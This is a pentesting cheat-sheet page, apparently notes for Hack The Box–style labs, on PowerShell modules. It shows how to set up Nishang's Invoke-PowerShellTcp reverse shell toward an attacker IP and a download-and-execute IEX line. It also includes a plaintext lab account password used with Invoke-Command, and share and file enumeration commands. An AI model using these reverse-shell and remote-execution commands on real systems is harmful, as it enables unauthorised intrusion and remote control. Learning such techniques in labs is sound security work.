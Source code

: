 ```yaml
---
description: >-
  Powershell Modules
title: Powershell Modules              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Modules]                     # Change Templates to Writeup
tags: [file transfer, powershell modules]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Nishang
If we want to add a .ps1 file into a Windows machine such as the [Nishang](https://github.com/samratashok/nishang) series we can modify the latest line of such file (to load the script and then execute it):
```powershell
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
```
Then we can execute it by using the following command on the compromised machine:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```
Examples:
[[Anubis#^bcdb9e]]

### Invoke-Command
Module to execute commands on the specified machine:
```powershell
PS> $Password = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $Password)
*PS> Invoke-Command -ComputerName dc01 -Credential $Creds -ScriptBlock { whoami }
```
Examples:
[[Fulcrum#^0145f0]]

### Get-SMBShare
Retrieves the local shares:
```powershell
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```
Examples:
[[Fulcrum#^cae2ef]]

### Select-String
Search files on the system
```powershell
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern Administrator
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern 923a
```
Example:
[[Fulcrum#^08db04]]
### AD CS
TODO
[[Anubis]]

### Invoke-PowerShellTCP
In order to connect to get a reverse shell with powershell we can abuse of the [Invoke-PowerShellTCP.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) all we need to do is modify the very bottom of this .ps1 file as follows:
```powershell
# Invoke-PowerShellTCP.ps1
------------------------SNIP---------------------------
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.2 -Port 443 -Rows 37 -Cols 189
```
> To get the file in rows and columns of the screen we can execute the stty size on our attacker machine.
{: .prompt-info }

> Don't forget to open your listener with netcat locally.
{: .prompt-tip }
Examples:
[Streamio](https://shuciran.github.io/posts/Streamio/#fnref:invoke-powershelltcp-ps1)
[[Anubis]]

